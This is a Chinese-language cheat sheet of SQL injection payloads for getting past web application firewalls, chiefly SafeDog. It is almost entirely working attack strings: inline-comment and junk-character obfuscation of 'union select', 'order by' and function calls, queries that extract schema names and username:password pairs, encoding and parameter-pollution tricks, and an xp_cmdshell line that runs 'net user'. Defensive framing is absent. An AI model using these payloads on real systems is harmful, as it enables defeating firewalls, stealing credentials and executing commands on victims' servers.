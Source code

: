 最新版\
1、安全狗and的绕过（防止and和or的注入）\
将and修改为/*!12345and*/ ps:12345是任意的5位数字\
通过bp进行拦截，发送到intruder模块，进行爆破找特征值 返回结果正常即是可以被正常绕过\
4-6位都可以

2、安全狗order by的绕过\
order by一起出现会引发安全狗警告，要在order by之间添加一些字符\
order /*//%$*/ by 1 -- 1

3、安全狗select　union的绕过（防止联合查询）\
select和union在一起的时候会触发\
跟order by原理相同，不过需要我们用bp进行fuzz\
?id=-2' union /*/$%^*/ select 1,2,3 -- 1

4、查询数据的绕过\
database()的绕过：\
database和()放在一起的时候会触发waf\
在两者之间添加干扰符即可\
?id=-2' union /*/$%^*/ select 1,database/*////*/(),3 -- 1\
查询表的绕过：\
第一个绕过点：\
information_schema.tables\
waf会对tables进行拦截，想绕过需改成information_schema./*!tables*/\
第二个绕过点：\
from和information_schema./*!tables*/当这两个放在一起的时候会触发waf，这个时候要对from和information.schema./*!tables*/之间进行处理了\
?id=-2' union /*/$%^*/ select 1,group_concat(table_name),3 from --+/*%/ %0a\
information_schema./*!tables*/ -- 1
绕过过程：首先在union和select之间放干扰符号，然后在from和information_schema之间放 --+以及正确的干扰符，然后通过%0a进行换行，最后对talbe进行内联\
但是还要通过where去指定对应的数据库\
?id=-2' union /*/$%^*/ select 1,group_concat(table_name),3 from --+/*%/ %0a\
information_schema./*!tables*/ where table_name='security' -- 1\
但是information_schema和where出现在一起需要在中间添加干扰符\
?id=-2' union /*/$%^*/ select 1,group_concat(table_name),3 from --+/*%/ %0a\
information_schema./*!tables*/ /*////*/\
where table_schema='security' -- 1  进行fuzz测试\
获取security对应表下的所有列名：\
?id=-2' union /*/$%^*/ select 1,group_concat(column_name),3 from --+/*%/ %0a\
information_schema./*!columns*/ /*////*/\
where table_schema='security' /*!12441and*/ table_name='users' -- 1\
查询数据的绕过：\
?id=-2' union /*/$%^*/ select 1,group_concat(username,0x3a,password),3 from /*////*/ users -- +

---

方法                                                                 payload
编码                                      1、进行url编码（少数waf不会进行URL解码,部分waf进行一次url解码==>可对payload进行二次url编码）
                                          2、Unicode编码：单引号 = %u0027、%u02b9、%u02bc
                                          3、部分十六进制编码：adminuser = 0x61646D696E75736572
                                          4、SQL编码：unicode、HEX、URL、ascll、base64等
                                          5、XSS编码：HTML、URL、ASCII、JS编码、base64等
大小写变换                                 select=SELecT
关键字替换                                 And = &&
                                          Or = ||
                                          等于号 = like （或使用’<’ 和 ‘>’ 进行判断）
                                          if(a,b,c) = case when(A) then B else C end
                                          substr(str,1,1) = substr (str) from 1 for 1
                                          limit 1,1 = limit 1 offset 1
                                          Union select 1,2 = union select * from ((select 1)A join (select 2)B;
                                          hex()、bin() = ascii()
                                          sleep() = benchmark()
                                          concat_ws() = group_concat()
                                          mid()、substr() = substring()
                                          @@user = user()
                                          @@datadir = datadir()
特殊字符替换（空格或注释绕过）               sqlserver中：/**/、/*|%23--%23|*/ 
                                          mysql中：%0a、%0a/**/、//*!*//、#A%0a
特殊字符重写绕过                           selselectect
多请求拆分绕过                             ?a=[inputa]&b=[inputb]  ===》(参数拼接)  and a=[inputa] and b=[inputb]
参数放Cookie里面进行绕过                    $_REQUEST（获取参数，会获取GET POST COOKIE）===>  若未检测cookie，我们可以放cookie里面
使用白名单绕过                             admin dede install等目录特殊目录在白名单内
                                          URL/xxx.php?id=1 union select …… ===》
                                          1、URL/xxx.php/admin?id=1 union select……
                                          2、URL/admin/..\xxx.php?id=1 union select……
内联注释绕过                               id=1 and 1=1 ===》  id=1/*!and*/1=1
参数重写绕过                               URL/xx.php?id=1 union select  ===》
                                          URL/xx.php?id=1&id=union&id=select&id=……&id=
特殊字符拼接                               mssql中，函数里面可以用+来拼接 ?id=1;exec('maste'+'r..xp'+'_cmdshell'+'"net user"')       
云waf                                     ===》找真实IP
http协议绕过                              Content-Type绕过：application/x-www-form-urlencoded è multipart/form-data
                                         请求方式绕过：更换请求方法
                                         多Content-Disposition绕过：包含多个Content-Disposition时，中间件与waf取值不同 
                                         keep-alive（Pipeline）绕过：手动设置Connection:keep-alive（未断开），然后在http请求报文中构造多个请求，将恶意代码隐藏在第n个请求中，从而绕过waf
                                         修改编码方式：Charset=xxx进行绕过
 Waf检测限制绕过                          参数溢出
                                         缓冲区溢出：
                                         UnIoN SeLeCT ===》 and (select 1)=(Select 0xA*99999) UnIoN SeLeCT and 1=1 ===》 and 1=1 and 99…99999 //此处省略N多个9同网段/ssrf绕过                                       
------------------------------------------------------------------------------------------------------
1=1绕过\
'and 1=1-- -被拦截\
&符号可以绕\
'%261-- -\
'%26true-- -\
'%260-- -\
'%26false-- -\
xor可以绕\
'Xor 1-- -\
'Xor true-- -

'or length(database()=4)-- -会被ban，这样绕：\
'%26(length(database/**/())=4)-- -\
'%26(ascii(@@version)=53)-- -\
1'or -1=-1-- -\
1'or -0=-0-- -

内联注释\
1'or /*!1=1*/-- -\
或者简单粗暴点的 或者简单粗暴点的 直接绕过and和or：\
/*!11440OR*/\
/*!11440AND*/



order by绕过\
%23%0a绕过\
order%23%0aby 3\
内联注释加注释绕过\
1'/*!order /*!/*/**/by*/4-- -\
1'/*!order /*/*%/**/by*/4-- -\
1'/*!order /*!/*/**//**/by*/4-- -\
1'/*!order /*!/*/**//*/**/by*/4-- -\
同样类似上面绕过and方法\
/*!11440order*/



union select绕过\
利用内联注释和注释的混淆绕过\
1'/*!union/*!/*/**/*/select/**/1,2,'password'-- -\
/*!11440union*/\
/*!select/*!/*/**/*/


系统函数绕过\
单独的括号和函数名都不会检测，分开函数名和括号：\
version () #直接空格\
user%0a() #这个地方%0a~%20有很多，类似绕过空格\
database/**/() #注释符\
user/*!*/() #内敛注释


函数名绕过\
/*!extractvalue/*!/*/**/*/\
/*!updatexml/*!/*/**/*/

联合注入绕过方式\
这里使用mysql自带的正则函数(regexp)

select * from company_info where name like '桑尼';  //查询name等于桑尼的数据\
select * from company_info where name regexp '桑尼'; //查询结果中name包含桑尼的数据

获取详细信息\
尝试获取数据库名、版本，因database()被识别被拦截

-1' regexp "%0A%23" /*!11444union*/ %0A /*!11444select*/ 1,database(/*!11444*/),version(/*!11444*/) %23

注入出表名\
-1' union /*!--+/*%0aselect/*!1,2,*/ group_concat(schema_name) /*!from*/

/*!--+/*%0ainformation_schema./*!schemata*/ --+
